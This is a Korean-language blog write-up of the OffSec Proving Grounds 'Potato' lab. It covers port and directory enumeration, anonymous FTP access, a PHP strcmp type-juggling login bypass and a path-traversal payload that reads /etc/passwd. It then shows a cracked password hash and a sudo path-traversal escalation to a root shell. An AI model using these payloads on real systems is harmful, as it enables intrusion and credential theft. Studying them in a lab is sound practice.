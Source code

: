 ```yaml
---
title: "Potato Writeup"
date: 2025-09-02T00:00:00+09:00
# weight: 1
# aliases: ["/first"]
tags: ["pen-testing", "hacking"]
author: "Me"
categories: ["Penetration Testing"]
# author: ["Me", "You"] # multiple authors

showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "Offsec PGP lab Potato Writeup"
# canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "posts/potato-writeup/cover.jpg" # image path/url
    alt: "cover-image"

editPost:
    URL: "https://github.com/hynseok/blog/blob/main/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Local DNS 등록하기
``` shell
sudo vi /etc/hosts
```
``` plain text
192.168.138.101 target
```

## Enumeration
### Nmap
```shell
sudo nmap -p- target
```
* `nmap -p-`는 대상 호스트의 모든 TCP 포트(1번부터 65535번까지)를 스캔하라는 의미입니다.

```plain text
Nmap scan report for target (192.168.138.101)
Host is up (0.10s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2112/tcp open  kip
```

```shell
sudo nmap -p 2112 target -sC -sV
```
* `2112` 포트에 대한 추가적인 enumeration을 할 수 있습니다.
* `sC` 옵션은 NSE 스크립트를 통한 취약점 스캔이고, `sV` 옵션은 버전 스캐닝 옵션입니다.
```plain text
PORT     STATE SERVICE VERSION
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

### Gobuster
```shell
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt -z
```
* `dir` 모드는 디렉토리 검색을 의미합니다.
* `-u` 옵션은 스캔할 대상 url을 지정합니다.
* `-w` 옵션은 wordlist의 경로를 지정하는 옵션입니다.
* `-z` 옵션은 터미널 프로그레스 출력을 비활성화하는 옵션입니다.
```plain text
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://target
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 271]
/.htaccess            (Status: 403) [Size: 271]
/.htpasswd            (Status: 403) [Size: 271]
/admin                (Status: 301) [Size: 300] [--> http://target/admin/]
/index.php            (Status: 200) [Size: 245]
/server-status        (Status: 403) [Size: 271]
===============================================================
Finished
===============================================================
```

## Exploitation
### Anonymous ProFTP Server
```shell
ftp target 2112
```
```plaintext
ftp> ls
229 Entering Extended Passive Mode (|||48351|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg

ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||36430|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901        9.44 MiB/s
226 Transfer complete
```
* ftp 서버에 접근하여 `index.php.bak` 파일을 가져옵니다.
* anonymous 접근시 유저네임을 `anonymous` 로 지정하고, 패스워드는 입력하지 않으면 됩니다.

### PHP Type Juggling and Authentication Bypass

* php에는 두가지 타입의 comparison이 있습니다. 하나는 strict comparison(`===`)이고, 다른 하나는 loose comparison(`==`)입니다.
* string comparator function `strcmp` 에서 string이 아닌 인풋이 입력되면 함수는 `NULL` 을 반환하고, `NULL == 0` loose comparison은 참을 반환하게 됩니다.

``` php
<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
```
* 위 php파일을 보면 `strcmp` 함수의 반환값을 loose comparator로 0과 비교하고 있습니다.

``` plain text
POST /admin/index.php?login=1 HTTP/1.1
...

username=admin&password[]=""
```
* Burp를 통해 password에 array를 전달합니다.

``` plain text
POST /admin/dashboard.php?page=log HTTP/1.1
...


file=../../../../../../../../../../etc/passwd
```
* log파일을 다운로드 할 수 있는 기능이 있습니다. LFI(Local File Inclusion)을 통해 /etc/passwd 파일을 출력합니다.

```shell
cat pass.txt
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin:/home/webadmin:/bin/bash
```
```shell
john pass.txt

Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 6 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
dragon           (webadmin)
1g 0:00:00:00 DONE 2/3 (2025-09-01 22:56) 16.66g/s 24200p/s 24200c/s 24200C/s 123456..keith
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
* webadmin의 passwd row를 john을 통해 해시 크래킹을 시도합니다.
* 결과로 나온 패스워드는 `dragon` 입니다.

## Privilege Escalation


```
sudo -l
```
* sudo -l옵션을 통해 해당 사용자가 사용할 수 있는 명령어를 확인합니다.

```shell
User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```


```shell
echo "/bin/bash" > bash.sh
chmod +x bash.sh
sudo /bin/nice /notes/../home/webadmin/bash.sh
```
* 사용자의 홈 디렉토리에 bash를 실행하는 스크립트를 생성한 뒤, 파일 경로를 우회하여 스크립트를 실행합니다.

